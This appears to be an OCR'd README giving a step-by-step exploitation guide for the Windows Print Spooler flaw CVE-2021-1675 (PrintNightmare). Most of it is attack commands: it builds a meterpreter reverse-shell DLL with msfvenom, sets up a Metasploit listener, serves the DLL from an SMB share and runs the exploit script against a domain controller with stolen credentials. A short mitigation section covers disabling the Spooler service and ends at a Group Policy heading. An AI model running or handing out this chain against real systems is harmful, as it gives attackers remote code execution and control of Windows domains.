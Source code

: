 **Cloning impacket**

```
sudo git clone https://github.com/SecureAuthCorp/impacket
```

**Installing impacket**

```python
python setup.py install
```

**Creating malicious DLL**

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=your-ip LPORT=your-port -f dll -o ~/Desktop/share/malicious.dll
```

**creating a listener using metasploit using the below handler**

```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost VALUE
set lport VALUE
```

**Creating an smb server to share the malicious DLL**

Use the native smbserver.py not the one under the impacket repository that we cloned in previous steps.

```
smbserver.py share /root/Desktop/share/ -smb2support
```

native \[smbserver.py] can be installed using the below command

```
sudo apt install impacket
```

**Running the exploit**

```
python CVE-2021-1675.py DC.domain.local/user:pass@DC_IP '\\your-ip\share\malicious.dll'
```

**Mitigation**

The first solution is to run windows updates on all endpoints and servers. The other solution is to disable the printspooler service

**Using Powershell**

```powershell
Stop-Service -Name Spooler -Force
Set-Service -Name Spooler -StartupType Disabled
```

**Using Group Policy**
